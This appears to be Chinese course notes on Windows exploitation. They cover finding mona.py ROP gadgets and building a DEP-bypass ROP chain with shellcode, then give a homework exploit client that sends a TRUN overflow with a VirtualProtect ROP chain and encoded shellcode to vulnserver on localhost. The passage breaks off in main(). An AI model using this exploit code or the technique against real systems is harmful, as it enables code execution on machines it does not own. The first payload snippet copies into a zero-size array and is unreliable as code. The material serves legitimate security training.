    -   
    -   
    -   找完之后回到log窗口可以看结果
    -   

-   

-   -   输入!mona 查看帮助命令
    -   
    -   日志写到文件内，在当前文件夹下。


##### mona查找rop链

-   指令：!mona rop
-   默认值：默认在调试程序当前模块和加载的外部主模块里查找
-   在指定模块查找指令：

​          `!mona rop -cpb '\x00' -m  ntdll.dll,kernel32.dll,kernelbase.dll`

​          -cpb  排除有指定坏字符的指令         

​          -m     指定模块

-   结果：在当前目录文件下的， rop_*.txt 的文件夹
-   


解读charins文件，当出现以下情况时，证明没找到。因为默认是找主模块的

-   


修改内存属性解析

```c++
int create_rop_chain(unsigned int *buf, unsigned int )
  {
    // rop chain generated with mona.py - www.corelan.be
    unsigned int rop_gadgets[] = {
      //[---INFO:gadgets_to_set_ebp:---]
      0x7606772d,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x760a1e20,  // ptr to &SetInformationProcess() [IAT KERNEL32.DLL] ** REBASED ** ASLR
      0x779db640,  // MOV EBP,DWORD PTR DS:[EAX] // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edx:---]
      0x7603e712,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xffffffde,  // Value to negate, will become 0x00000022
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x77aacf20,  // XCHG EAX,EDX // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_ecx:---]
      0x77a17e05,  // POP ECX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x76020212,  // &0x00000002 [KERNEL32.DLL]
      //[---INFO:gadgets_to_set_ebx:---]
      0x77a0928a,  // POP EBX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0xffffffff,  // 0xffffffff-> ebx
      //[---INFO:gadgets_to_set_eax:---]
      0x76085012,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xfffffffc,  // Value to negate, will become 0x00000004
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edi:---]
      0x77a8c77e,  // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x77a8c77e,  // skip 4 bytes [ntdll.dll] ** REBASED ** ASLR
      //[---INFO:pushad:---]  
      //所有寄存器入栈,顺序是固定的,把所有参数放到寄存器,早pushad一次性入栈
      0x779d9519,  // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR 
    };
    if(buf != NULL) {
      memcpy(buf, rop_gadgets, sizeof(rop_gadgets));
    };
    return sizeof(rop_gadgets);
  }


POP EAX
RETN
MOV EAX,DWORD PTR DS:[EAX]
PUSH EAX
```

1.  首先将需要的地址全部存放在栈里，然后执行上述地址的代码。

```c++
//rop链   
unsigned int rop_gadgets[] = {
      //[---INFO:gadgets_to_set_ebp:---]
      0x7606772d,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x760a1e20,  // ptr to &SetInformationProcess() [IAT KERNEL32.DLL] ** REBASED ** ASLR
      0x779db640,  // MOV EBP,DWORD PTR DS:[EAX] // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edx:---]
      0x7603e712,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xffffffde,  // Value to negate, will become 0x00000022
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR     
      0x77aacf20,  // XCHG EAX,EDX // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_ecx:---]
      0x77a17e05,  // POP ECX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x76020212,  // &0x00000002 [KERNEL32.DLL]
      //[---INFO:gadgets_to_set_ebx:---]
      0x77a0928a,  // POP EBX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0xffffffff,  // 0xffffffff-> ebx
      //[---INFO:gadgets_to_set_eax:---]
      0x76085012,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xfffffffc,  // Value to negate, will become 0x00000004
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edi:---]
      0x77a8c77e,  // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x77a8c77e,  // skip 4 bytes [ntdll.dll] ** REBASED ** ASLR
      //[---INFO:pushad:---]
      0x779d9519,  // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR 
    };

//前面的填充代码
char  szBuf[] = {
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 
};

//弹窗的 shellcode 代码
char szShellcode[] = {
    0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x2C, 0x8D, 0x4D, 0xD4, 0xE8, 0x32, 0x00, 0x00, 0x00, 0x6A, 0x00, 
	0x6A, 0x00, 0x8D, 0x45, 0xF0, 0xC7, 0x45, 0xF0, 0x48, 0x65, 0x6C, 0x6C, 0x50, 0x6A, 0x00, 0xC7, 
	0x45, 0xF4, 0x6F, 0x53, 0x68, 0x65, 0xC7, 0x45, 0xF8, 0x6C, 0x6C, 0x63, 0x6F, 0x66, 0xC7, 0x45, 
	0xFC, 0x64, 0x65, 0xC6, 0x45, 0xFE, 0x00, 0xFF, 0x55, 0xEC, 0x8B, 0xE5, 0x5D, 0xC3, 0xCC, 0xCC, 
	0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x44, 0x53, 0x56, 0x57, 0x89, 0x4D, 0xF0, 0xC7, 0x45, 0xFC, 0x00, 
	0x00, 0x00, 0x00, 0x64, 0xA1, 0x30, 0x00, 0x00, 0x00, 0x8B, 0x40, 0x0C, 0x8B, 0x40, 0x0C, 0x8B, 
	0x00, 0x8B, 0x00, 0x8B, 0x40, 0x18, 0x89, 0x45, 0xFC, 0x8B, 0x5D, 0xFC, 0x8D, 0x4D, 0xBC, 0xC7, 
	0x45, 0xBC, 0x47, 0x65, 0x74, 0x50, 0xC7, 0x45, 0xC0, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0xC4, 
	0x64, 0x64, 0x72, 0x65, 0x8B, 0x43, 0x3C, 0x66, 0xC7, 0x45, 0xC8, 0x73, 0x73, 0xC6, 0x45, 0xCA, 
	0x00, 0x8B, 0x44, 0x18, 0x78, 0x03, 0xC3, 0x89, 0x45, 0xF4, 0x81, 0xF9, 0xFF, 0xFF, 0x00, 0x00, 
	0x76, 0x66, 0x8B, 0x48, 0x18, 0x33, 0xFF, 0x89, 0x4D, 0xF8, 0x85, 0xC9, 0x74, 0x44, 0x8B, 0x70, 
	0x20, 0x03, 0xF3, 0x8B, 0x06, 0x8D, 0x4D, 0xBC, 0x03, 0xC3, 0x8D, 0x9B, 0x00, 0x00, 0x00, 0x00, 
	0x8A, 0x11, 0x3A, 0x10, 0x75, 0x1A, 0x84, 0xD2, 0x74, 0x12, 0x8A, 0x51, 0x01, 0x3A, 0x50, 0x01, 
	0x75, 0x0E, 0x83, 0xC1, 0x02, 0x83, 0xC0, 0x02, 0x84, 0xD2, 0x75, 0xE4, 0x33, 0xC0, 0xEB, 0x05, 
	0x1B, 0xC0, 0x83, 0xC8, 0x01, 0x85, 0xC0, 0x74, 0x0D, 0x47, 0x83, 0xC6, 0x04, 0x3B, 0x7D, 0xF8, 
	0x72, 0xC1, 0x33, 0xC0, 0xEB, 0x28, 0x8B, 0x55, 0xF4, 0x8B, 0x42, 0x24, 0x8D, 0x04, 0x78, 0x0F, 
	0xB7, 0x0C, 0x18, 0x8B, 0x42, 0x1C, 0xEB, 0x0E, 0x8D, 0x4D, 0xBC, 0x2B, 0x48, 0x10, 0x3B, 0x48, 
	0x14, 0x73, 0xDF, 0x8B, 0x40, 0x1C, 0x8D, 0x04, 0x88, 0x8B, 0x04, 0x18, 0x03, 0xC3, 0x8B, 0x75, 
	0xF0, 0x8D, 0x4D, 0xCC, 0x51, 0x53, 0xC7, 0x45, 0xCC, 0x4C, 0x6F, 0x61, 0x64, 0x89, 0x06, 0xC7, 
	0x45, 0xD0, 0x4C, 0x69, 0x62, 0x72, 0xC7, 0x45, 0xD4, 0x61, 0x72, 0x79, 0x41, 0xC6, 0x45, 0xD8, 
	0x00, 0xFF, 0xD0, 0x8D, 0x4D, 0xE8, 0x89, 0x46, 0x04, 0x51, 0xC7, 0x45, 0xE8, 0x75, 0x73, 0x65, 
	0x72, 0x66, 0xC7, 0x45, 0xEC, 0x33, 0x32, 0xC6, 0x45, 0xEE, 0x00, 0xFF, 0xD0, 0x8D, 0x4D, 0xDC, 
	0xC7, 0x45, 0xDC, 0x4D, 0x65, 0x73, 0x73, 0x51, 0x50, 0x8B, 0x06, 0xC7, 0x45, 0xE0, 0x61, 0x67, 
	0x65, 0x42, 0xC7, 0x45, 0xE4, 0x6F, 0x78, 0x41, 0x00, 0xFF, 0xD0, 0x5F, 0x89, 0x46, 0x18, 0x5E, 
	0x5B, 0x8B, 0xE5, 0x5D, 0xC3
};

char szPayLoad[]={};

//拼接数据
RtlCopyMemory(szPayLoad,szBuf,sizeof(szBuf));

RtlCopyMemory(szPayLoad+sizeof(szBuf),rop_gadgets,sizeof(rop_gadgets));

RtlCopyMemory(szPayLoad+sizeof(szBuf)+sizeof(rop_gadgets),szShellcode,sizeof(szShellcode));

};

```




这里只是需要交换   eax 和 esi 的值 ，但是下面又把值改了，因此这条指令需要换

 momna查找指令 

!mona  findwild  -s  XCHG  EAX,ESI#*ret

​      \#        隔开指令

​      \*         通配符

​      r32     任意寄存器

查找结果文件

FINDWILD.TXT


 作业 

●完成vulnserver.exe的弹框操作。vulnserver.exe  也是一个服务器

协议   IPPROTO_TCP




端口号  0x270f




接收数据缓冲区地址:   0x714770







[分析文档.docx(3.2 MB)](./分析文档.docx)

```c++

unsigned char g_szShellCode[] = {
    0x83, 0xEC, 0x10, 0x90, 0xDB, 0xD9, 0xBA, 0xD6, 0xFE, 0x13, 0xA6, 0xD9, 0x74, 0x24, 0xF4, 0x5E, 0x31, 0xC9, 0xB1, 0x45,
    0x83, 0xC6, 0x04, 0x31, 0x56, 0x13, 0x03, 0x80, 0xED, 0xF1, 0x53, 0xF5, 0xF9, 0x6D, 0x42, 0x71,
    0xDA, 0x65, 0x44, 0xAB, 0x90, 0xF1, 0x96, 0x82, 0xB1, 0x76, 0xA9, 0x24, 0xB1, 0xFF, 0x46, 0xCF,
    0xB3, 0xE3, 0xDD, 0x89, 0x33, 0x97, 0x9C, 0x35, 0xCF, 0x91, 0x58, 0x7A, 0xD7, 0xA8, 0x6B, 0xDD,
    0xE6, 0x83, 0x73, 0x3C, 0x88, 0xA8, 0xE0, 0x9A, 0x6D, 0x24, 0xBD, 0xDE, 0xE6, 0x6E, 0x16, 0x66,
    0xF8, 0x64, 0xED, 0xDC, 0xE2, 0xF3, 0xA8, 0xC0, 0x13, 0xEF, 0xAE, 0x34, 0x5D, 0x64, 0x04, 0xBF,
    0x5C, 0x94, 0x54, 0x40, 0x6F, 0xA8, 0x6B, 0x12, 0x14, 0xE8, 0xE0, 0x6D, 0xD4, 0x26, 0x05, 0x70,
    0x11, 0x53, 0xE2, 0x49, 0xE1, 0x80, 0x23, 0xD8, 0xF8, 0x42, 0x69, 0x06, 0xFA, 0xBF, 0xE8, 0xCD,
    0xF0, 0x74, 0x7E, 0x8B, 0x14, 0x8A, 0x6B, 0xA0, 0x21, 0x07, 0x6A, 0x5E, 0xA0, 0x53, 0x49, 0x82,
    0xD2, 0x98, 0x23, 0xB2, 0x3D, 0xCB, 0xCD, 0x27, 0xB4, 0x31, 0xA5, 0x29, 0x89, 0xBB, 0xDA, 0x67,
    0xFE, 0x5B, 0xDD, 0x78, 0x01, 0xEA, 0x67, 0x82, 0x45, 0x93, 0xBF, 0x68, 0xCA, 0xEB, 0x5C, 0x48,
    0x7F, 0x1C, 0xD2, 0x6F, 0x80, 0x23, 0x62, 0xCA, 0x77, 0xB4, 0x19, 0xB8, 0xA7, 0x05, 0x8A, 0x73,
    0x9A, 0xAB, 0x2E, 0x1B, 0xAF, 0xC0, 0xCB, 0xA9, 0x7F, 0xFC, 0x9C, 0x11, 0xA4, 0x08, 0x14, 0x4F,
    0xF2, 0xF3, 0x73, 0x8B, 0x72, 0xC9, 0x2C, 0x28, 0x2C, 0x6C, 0x81, 0xF2, 0xAA, 0x6D, 0x3E, 0x58,
    0x5D, 0xD2, 0xC1, 0xA3, 0x62, 0x85, 0x52, 0x23, 0xC5, 0x76, 0xC5, 0xB2, 0x92, 0x13, 0x57, 0x5C,
    0x10, 0xB9, 0x24, 0xEF, 0x9B, 0x9A, 0x43, 0x53, 0xF8, 0x16, 0xDD, 0x88, 0x68, 0x7F, 0xFD, 0x6E,
    0x49, 0x17, 0xB0, 0x3D, 0xCF, 0xC6, 0x22, 0xB3, 0xA0, 0x65, 0x93, 0x5B, 0x50, 0x5A, 0xF3, 0xFD,
    0xC6, 0xEA, 0x96, 0x6D, 0x7B, 0xDA, 0x91, 0xE5, 0xCF, 0x38, 0x32, 0x7C, 0x2E, 0x71, 0xE0, 0x2C,
    0xE2, 0x23, 0x56, 0x2F, 0xD4, 0xF5, 0x96, 0x9F, 0x2A, 0xA0, 0x1E
};

unsigned int rop_gadgets[] = {
    //[---INFO:gadgets_to_set_esi:---]
    0x76a16ff2,  // POP EAX // RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    0x6250609c,  // ptr to &VirtualProtect() [IAT essfunc.dll]
    0x77033c5e,  // MOV EAX,DWORD PTR DS:[EAX] // RETN [ntdll.dll] ** REBASED ** ASLR 
    0x75b11470,  // XCHG EAX,ESI // RETN [WS2_32.DLL] ** REBASED ** ASLR 
    //[---INFO:gadgets_to_set_ebp:---]
    0x75ad847d,  // POP EBP // RETN [WS2_32.DLL] ** REBASED ** ASLR 
    0x625011af,  // & jmp esp [essfunc.dll]
    //[---INFO:gadgets_to_set_ebx:---]
    0x760d887f,  // POP EAX // RETN [msvcrt.dll] ** REBASED ** ASLR 
    0xfffffdff,  // Value to negate, will become 0x00000201
    0x76d394ea,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
    0x7703cc7e,  // XCHG EAX,EBX // RETN [ntdll.dll] ** REBASED ** ASLR 
    //[---INFO:gadgets_to_set_edx:---]
    0x769c118d,  // POP EAX // RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    0xffffffc0,  // Value to negate, will become 0x00000040
    0x76d3a918,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
    0x75adc549,  // XCHG EAX,EDX // RETN [WS2_32.DLL] ** REBASED ** ASLR 
    //[---INFO:gadgets_to_set_ecx:---]
    0x760874df,  // POP ECX // RETN [msvcrt.dll] ** REBASED ** ASLR 
    0x62504bbe,  // &Writable location [essfunc.dll]
    //[---INFO:gadgets_to_set_edi:---]
    0x77069fec,  // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR 
    0x76d3a91a,  // RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
    //[---INFO:gadgets_to_set_eax:---]
    0x769c1161,  // POP EAX // RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    0x90909090,  // nop
    //[---INFO:pushad:---]
    0x7703ea16,  // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR 
};

void SendShellCode(SOCKET sk) {

    char szBuf[4096] = { "TRUN ." };

    for (size_t i = 6; i < sizeof(szBuf); i++)
    {
        szBuf[i] = 0x90;
    }

    szBuf[2012] = 0x12;
    szBuf[2013] = 0x45;
    szBuf[2014] = 0xFA;
    szBuf[2015] = 0x7F;
    memcpy(&szBuf[2012], rop_gadgets, sizeof(rop_gadgets));
    memcpy(&szBuf[2012 + sizeof(rop_gadgets)], g_szShellCode, sizeof(g_szShellCode));

    send(sk, szBuf, sizeof(szBuf), 0);
}
void SendInputData(SOCKET sk) {

    char szSendBuff[32] = { 0 };
    scanf("%31s", szSendBuff);
    send(sk, szSendBuff, sizeof(szSendBuff), 0);
}

int SelectInput(SOCKET sk) {

    int nFlag = 0;
    while (true)
    {
        printf("请选择：\r\n0、清空控制台\r\n1、退出\r\n2、发送输入字符\r\n3、发送shellcode\r\n");

        scanf("%d", &nFlag);
        switch (nFlag)
        {
        case 0:
            system("cls");
            break;
        case 1:
            return 0;
        case 2:
            SendInputData(sk);
            return 1;
        case 3:
            SendShellCode(sk);
            return 1;
        default:
            break;
        }
    }
}

int main() {

    SOCKET sk = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    if (sk == INVALID_SOCKET)
    {
        printf("socket error\r\n");
        sk = NULL;
        return -1;
    }
    //连接IP和端口
    char szIP[32] = "127.0.0.1";
    sockaddr_in si;
    si.sin_family = AF_INET;
    si.sin_port = htons(9999);
    si.sin_addr.S_un.S_addr = inet_addr(szIP);


    //连接服务器
    int nRet = connect(sk, (sockaddr*)&si, sizeof(si));
    if (nRet == INVALID_SOCKET)
    {
